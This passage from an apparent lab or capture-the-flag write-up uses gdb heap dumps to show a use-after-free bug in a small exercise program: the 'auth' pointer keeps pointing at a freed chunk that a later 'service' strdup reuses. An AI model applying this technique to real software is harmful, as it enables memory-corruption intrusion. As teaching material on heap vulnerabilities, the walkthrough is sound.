 As expected, another chunk of memory is allocated to store *another* `struct auth`, and our string 'swjs' is copied to memory address `0x804c018`.
```
(gdb) x/32x 0x804c000
0x804c000:	0x00000000	0x00000011	0x6f6c6f73	0x0000000a
0x804c010:	0x00000000	0x00000011	0x736a7773	0x0000000a
0x804c020:	0x00000000	0x00000fe1	0x00000000	0x00000000
0x804c030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c050:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c070:	0x00000000	0x00000000	0x00000000	0x00000000
```

Now, the pointer variable `auth` shows the new allocated memory address `0x804c018`.
```
(gdb) c
Continuing.
[ auth = 0x804c018, service = (nil) ]
```

If I were to `reset`, the memory chunk at address `0x804c018` will be freed. But the pointer variable `auth` still points to it. It points to the freed memory. Remember this. This is a big clue right here.
```
(gdb) x/32x 0x804c000
0x804c000:	0x00000000	0x00000011	0x6f6c6f73	0x0000000a
0x804c010:	0x00000000	0x00000011	0x00000000	0x0000000a
0x804c020:	0x00000000	0x00000fe1	0x00000000	0x00000000
0x804c030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c050:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c070:	0x00000000	0x00000000	0x00000000	0x00000000
(gdb) c
Continuing.
[ auth = 0x804c018, service = (nil) ]
```

Let me input `service zzzyyyxxx` into the program. Pay atttention to the address of the memory chunk allocated for it. It is stored in the memory chunk starting from address `0x804c018`. Hmmm, wait a minute. Isn't that the same memory chunk that pointer variable `auth` points to? Hell yeah it is! Since the memory was freed earlier, it can be used by `strdup` to store the string `' zzzyyyxxx\n'` (the space and newline characters are included) given as input with `service`. This is the stale heap pointer vulnerability the hint refers to. Both pointer variables `auth` and `service` point to the same chunk of memory. 
```
(gdb) x/32x 0x804c000
0x804c000:	0x00000000	0x00000011	0x6f6c6f73	0x0000000a
0x804c010:	0x00000000	0x00000011	0x7a7a7a20	0x78797979
0x804c020:	0x000a7878	0x00000fe1	0x00000000	0x00000000
0x804c030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c050:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c070:	0x00000000	0x00000000	0x00000000	0x00000000
```
